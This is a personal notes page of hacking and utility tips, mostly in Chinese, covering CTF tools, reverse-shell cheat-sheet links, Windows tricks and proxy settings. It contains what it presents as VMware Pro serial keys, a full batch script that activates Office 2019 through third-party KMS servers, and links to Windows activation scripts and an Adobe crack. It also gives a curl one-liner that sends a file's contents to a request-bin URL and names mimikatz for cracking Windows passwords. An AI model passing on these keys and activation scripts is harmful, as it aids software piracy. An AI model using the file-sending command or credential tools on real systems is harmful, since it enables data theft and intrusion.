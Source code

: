 # Tools

## CTF-Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)

### Rev-Shell
* [Reverse-Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub-List-Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## 生活駭客

* [word放code](http://www.planetb.ca/projects/syntaxHighlighter)
* [手機連電腦-apowerviewer](https://www.google.com/search?q=apowermirror&oq=apowermirror&aqs=chrome..69i57j0l7.5587j0j7&sourceid=chrome&ie=UTF-8)
* [Bash-Command-Search](https://ss64.com/)
* [7z-CLI-用法](https://www.cnblogs.com/sparkdev/p/5598062.html)
    ```bash=
    7z.exe a <target> <source: 只能用相對路徑>
    ```
* [PCHunter Tool](https://www.bleepingcomputer.com/download/pc-hunter/)
    * Windows系統訊息查看，輔助殺毒文件
* Python HTTP Server
    ```python=
    python -m http.server 8080
    ```
* curl 配 request-bin 傳檔
    ```
    (echo -n '{"payload": "'; <file>; echo '"}') | curl -H "Content-Type: application/json" -d @- <requests-bin url>
    ```
* Command-Injection
    - https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89


## Windows Tricks
* windows監控遠端task跟service
    - `sc` `tasklist`
    - https://www.raymond.cc/blog/remotely-start-and-stop-applications-or-services-over-the-internet/
* [送windows通知](http://vaskovsky.net/notify-send/)

## Hacking Trick

### win10系統密碼hack
* netpass
* mimikatz

### MD5
* somd5.com
* cmd5.com


## Proxy 

* Windows CLI Set-Proxy
```
set http_proxy=socks5://<ip>:<port>
```

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)

* [Patch My PC](https://patchmypc.com/home-updater)

## 黑產

### VMware 16 pro

:::warning
記得選Pro，不要用Player，Player功能很少
> https://www.vmware.com/tw/products/workstation-pro/faq.html
:::
* Serial-key 
    * [Link](https://gist.github.com/gopalindians/ec3f3076f185b98353f514b26ed76507)
```
Serial keys:

ZF3R0-FHED2-M80TY-8QYGC-NPKYF
YF390-0HF8P-M81RQ-2DXQE-M2UT6
ZF71R-DMX85-08DQY-8YMNC-PPHV8
AZ3E8-DCD8J-0842Z-N6NZE-XPKYF
FC11K-00DE0-0800Z-04Z5E-MC8T6

If the keys worked for you, this(https://isha.sadhguru.org/mahashivratri/sadhguru/articles/shambho-a-gentle-form-of-shiva/) will also work.
```

* 載點
    * https://www.vmware.com/products/workstation-pro.html


### MicroSoft Activating Script 

* https://github.com/massgravel/Microsoft-Activation-Scripts

### Office2019-啟用script
* https://gist.github.com/frodoslaw/863cd7207f0736b075d9c5e6604f614e
```bat=
@echo off
title Activate Microsoft Office 2019 ALL versions for FREE!&cls&echo ============================================================================&echo #Project: Activating Microsoft software products for FREE without software&echo ============================================================================&echo.&echo #Supported products:&echo - Microsoft Office Standard 2019&echo - Microsoft Office Professional Plus 2019&echo.&echo.&(if exist "%ProgramFiles%\Microsoft Office\Office16\ospp.vbs" cd /d "%ProgramFiles%\Microsoft Office\Office16")&(if exist "%ProgramFiles(x86)%\Microsoft Office\Office16\ospp.vbs" cd /d "%ProgramFiles(x86)%\Microsoft Office\Office16")&(for /f %%x in ('dir /b ..\root\Licenses16\ProPlus2019VL*.xrm-ms') do cscript ospp.vbs /inslic:"..\root\Licenses16\%%x" >nul)&(for /f %%x in ('dir /b ..\root\Licenses16\ProPlus2019VL*.xrm-ms') do cscript ospp.vbs /inslic:"..\root\Licenses16\%%x" >nul)&echo.&echo ============================================================================&echo Activating your Office...&cscript //nologo slmgr.vbs /ckms >nul&cscript //nologo ospp.vbs /setprt:1688 >nul&cscript //nologo ospp.vbs /unpkey:6MWKP >nul&cscript //nologo ospp.vbs /inpkey:NMMKJ-6RK4F-KMJVX-8D9MJ-6MWKP >nul&set i=1
:server
if %i%==1 set KMS_Sev=kms7.MSGuides.com
if %i%==2 set KMS_Sev=kms8.MSGuides.com
if %i%==3 set KMS_Sev=kms9.MSGuides.com
if %i%==4 goto notsupported
cscript //nologo ospp.vbs /sethst:%KMS_Sev% >nul&echo ============================================================================&echo.&echo.
cscript //nologo ospp.vbs /act | find /i "successful" && (echo.&echo ============================================================================&echo.&echo #My official blog: MSGuides.com&echo.&echo #How it works: bit.ly/kms-server&echo.&echo #Please feel free to contact me at msguides.com@gmail.com if you have any questions or concerns.&echo.&echo #Please consider supporting this project: donate.msguides.com&echo #Your support is helping me keep my servers running everyday!&echo.&echo ============================================================================&choice /n /c YN /m "Would you like to visit my blog [Y,N]?" & if errorlevel 2 exit) || (echo The connection to my KMS server failed! Trying to connect to another one... & echo Please wait... & echo. & echo. & set /a i+=1 & goto server)
explorer "http://MSGuides.com"&goto halt
:notsupported
echo.&echo ============================================================================&echo Sorry! Your version is not supported.&echo Please try installing the latest version here: bit.ly/aiomsp
:halt
pause >nul
```

### Adobe黑產

* 2019-2020(別下到2021)
    * https://lazymandaily.com/adobe-2019-2020-full-packet-crack/

## 黑市
- https://hackerwarehouse.com/
